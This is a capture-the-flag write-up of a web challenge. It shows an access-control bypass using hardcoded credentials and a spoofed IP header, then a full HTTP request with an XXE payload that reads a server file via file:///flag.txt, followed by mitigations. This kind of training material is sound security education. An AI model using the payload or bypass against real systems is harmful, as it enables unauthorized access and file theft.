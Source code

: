 ## WhiteBox Penetration Test – Internal Web Application

This challenge demonstrates the XML external entity vulnerability that allows an attacker to interfere with an application's processing of XML data.

Challenge Credit: Devnull X ZedBounty

### Scenario

### Tools Used
- Burp Suite
- Curl
- Mozilla Firefox
- XML Payloads (Payloadallthings)
- DomDocument analysis

**Environment**
![Screenshot_2025-05-05_13_36_35](https://github.com/user-attachments/assets/f062c120-325b-47f0-ab35-82652efe44c7)

 
 **Configuration Files (zip file)**
  
![Screenshot_2025-05-05_15_46_47](https://github.com/user-attachments/assets/da670ee4-741d-49c0-84b1-d591dfbbd262)

  *Panel.php is an interesting file*

  ![Screenshot_2025-05-05_12_57_22](https://github.com/user-attachments/assets/536a72e0-9850-4853-a069-f9d369eae53b)



### Key Findings
**1. Access Control bypass**
    
- Access was denied to panel.php on live web server

![Screenshot_2025-05-05_15_56_47](https://github.com/user-attachments/assets/3be39ff4-0084-47eb-b2a5-064c451f87ef)
  
- Hardcoded credentials discovered via *panel.php* file.
  
  ![cred](https://github.com/user-attachments/assets/0e8ee05e-73ec-4911-9893-8ba698b11f81)

- Burpsuit for account takeover
  
    --> Intercept request with proxy
  
    --> Insert credentials and spoofed IP in HTTP Header.
  
    --> forward request
  
  ![Screenshot_2025-05-05_14_46_34](https://github.com/user-attachments/assets/878e17fb-3584-49c0-b823-fd9ab6d8b948)

  - Panel.php is now accessible
    
    ![Screenshot_2025-05-05_14_12_23](https://github.com/user-attachments/assets/992309f8-18b6-4d8f-baff-757cc84638d8)

**2. Vulnerability Discovery (XXE)**

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. - Portswigger

Whats basically happening is the server is able to recieve external data (In the form of XML) and processes this data without proper handling hence the parser expands the input and reveals files on the server.

Classification: XML External Entity (XXE) Injection

Impact: High/severe 

 --> Send request to Burp repeater

 --> Change method from GET to POST

 --> Content type to application/xml

 --> Insert test payload in message body


![Screenshot_2025-05-05_14_24_41](https://github.com/user-attachments/assets/2139a878-a07a-4ecf-9284-3390de2de149)

 *DomDocument::loadXML() is an interesting find*

 **4. Exploit**
 
 The panel.php endpoint accepts XML input via POST with the header Content-Type: application/xml. 
 
 --> Open Burp Repeater

 --> Change the request method GET to POST

POST /panel.php?username=v1v4c3ll4dm1n&password=v1va_la_v1da@123 HTTP/1.1
 
Host: challenge.zedbounty.com

X-VIVACELL-VPN: 41.18.611.104

Content-Type: application/xml

Connection: close

--> Paste the payload in the message body

```xml &lt;?
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<data>
    <health>&xxe;</health>
    <temperature>420</temperature>
    <pressure>1337</pressure>
    <control_rods>Lowered</control_rods>
    <radiation_level>5.4</radiation_level>
    <coolant_level>87</coolant_level>
    <power_input>900</power_input>
    <emergency_shutdown>false</emergency_shutdown>
</data>
```
---> How it was sent in Burp

![Screenshot_2025-05-06_14_21_15](https://github.com/user-attachments/assets/e4936b49-0fe0-4a9a-b891-45a23315f087)

--> Check The response tab

*Flag Captured: **ZB{xx3_ch3mic4l_r3act1on}***


### Mitigation
- Validate or sanitize incoming XML payloads.

- Disable entity Loading.

- Restrict LIBXML_NOENT usage.

### Lessons Learned
- Bypassing directory access controls using HTTP Header requests
  
- DOMDocument::loadXML() parser when used with LIBXML_NOENT can expose sensitive files on the web server

- IP Spoofing to bypass authentication with hardcoded credentials
